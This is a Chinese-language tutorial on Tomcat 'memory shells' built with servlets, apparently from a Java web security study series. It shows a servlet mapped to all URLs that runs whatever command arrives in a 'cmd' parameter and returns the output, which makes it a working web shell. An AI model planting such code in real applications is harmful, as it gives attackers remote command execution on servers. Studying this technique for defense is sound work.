

# Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令

